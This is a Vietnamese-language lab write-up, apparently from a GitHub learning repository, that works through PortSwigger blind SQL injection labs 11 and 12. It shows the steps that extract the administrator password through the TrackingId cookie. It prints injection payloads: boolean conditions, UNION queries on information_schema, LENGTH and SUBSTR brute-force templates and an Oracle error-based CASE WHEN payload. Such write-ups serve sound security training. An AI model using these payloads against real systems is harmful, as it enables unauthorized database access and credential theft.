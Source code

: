 # [Lab 11: Blind SQLi with conditional responses]()
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/37ad9743-6580-48f3-ba12-fea8f2e1e44d)

trang web chính
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/987b0575-42d5-492b-9bec-0254487eb039)

message `Welcome back!`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7e2fd235-25a3-43b0-998e-69a773e82377)

thêm `'`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/2e7dddc5-0bbb-4a19-8977-c229b04a383c)

message `Welcome back!` biến mất
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/6778550f-7e9e-48e3-b7fd-c57c80804c66)

thêm `--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4b71cdc2-415e-431a-a748-130d904f7dd8)

message đã trở lại --> SQLi ở trackingId
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7b78da5b-74c8-456d-a6e8-1b24833f1398)

`ORDER BY 1`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/b460477b-719b-4ee0-9a11-f99a2ab72931)

`' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public'--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4c560ca7-32ba-4f6d-aa36-14f8406c46d6)
chỉ hiện message Welcome back! câu truy vấn chính xác nhưng không có kết quả trả về mà chỉ có hiện message hay không --> True: hiện message, False: không hiện message

`AND 1=0` --> không hiện message
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/60af5c3f-d3f5-4217-93df-5528bde1aa04)

`AND 1=1` --> hiện message
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4cc60215-e352-442c-9818-c7b333999958)

--> ta sẽ đưa các điều kiện để khai thác dữ liệu

message xuất hiện --> có username là administrator từ bảng users
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/521b7439-d994-4bbd-8d46-d4ea1816e81c)

`' AND (SELECT LENGTH(password)=§1§ FROM users WHERE username='administrator')--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/faeb5c5e-80dd-4563-a5a6-c788035cf6c7)

password có 20 ký tự
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/e0ffd916-4cbe-4da9-9547-61f6984b0a60)

tìm từng ký tự thôi

`' AND (SELECT SUBSTR(password,§1§,1)='§a§' FROM users WHERE username='administrator')--`

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/b11970b0-5185-4ae9-8942-be9c87d391a8)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ca1a5338-7740-4259-a7f1-80c0f13c77e9)

login and solve the lab
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/a3a65d89-e1aa-4416-8a6b-105aa9245a56)

# [Lab 12: Blind SQLi with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/2736db9b-e388-4209-9b5a-a4dc410315e7)

Đây là trang web chính của bài lab, ta dễ thấy có các chức năng
- Filter: lọc các kết quả của tìm kiếm search
- View details: xem chi tiết sản phẩm
- My account: login và profile của account đăng nhập

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/84eab554-6793-4824-9bf1-2e0ddf976371)

Khi test các chức năng, ta không phát hiện ra lỗi SQLi, tuy nhiên khi thử ở biến TrackingId ở cookie thì ta phát hiện lỗi SQLi
- Khi ta thêm ký tự `'` thì đã thấy xuất hiện lỗi không thể duyệt web

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/88d76f57-aefd-4352-86a1-4ffe77f79458)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/02a0a29c-d280-4252-9040-3302e01ea51d)

Tuy nhiên khi thêm `'` thì lại duyệt web bình thường
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/8d7fa086-cf4c-416a-93e7-8f38dbd407b9)

Tiếp theo cần xác định xem
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/dc845b96-4ef0-4598-b9f6-27746c14769c)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7c39b315-5945-4e7d-b7ea-fc08112bd9b7)
→ duyệt web bình thường → Database: Oracle
→ sử dụng payload: CASE WHEN → sau khi test → payload thỏa mãn là: `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/e20992d2-0dcb-4ad0-943c-db746e8ab101)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7145bb9a-dae6-4daa-9fe3-b8f1b05c18de)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/e526b059-fd16-43d0-8cd5-cb40b4690133)
duyệt web bình thường
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/486a0144-7108-46aa-8588-788667f3fd57)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/021bb699-4f42-4b90-96ef-bb587b27cf2a)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/b80569b9-42dd-4c6b-8e2a-65de10918afc)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/8c98a14a-ce3e-4b78-9fe6-d042467d4dfc)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/1a163de3-7e68-4395-acc0-df49b29f068c)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/f9e40d0a-f174-4fe8-ae34-69261746fba6)
→ pass 20 ký tự
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/994ab2c3-7fff-48b5-ae35-e89e1d071341)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/1e79cc37-be96-40b5-8be0-ae80344233b7)

→ password là 76xkww0jnumpa206hw9b

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ce347165-3963-44c2-b6b6-123bec6d2533)

# [Lab 13: Visible error-based SQLi]()


# [Lab 14: Blind SQLi with time delays]()


# [Lab 15: Blind SQLi with time delays and information retrieval]()


# [Lab 18: SQLi with filter bypass via XML encoding]()
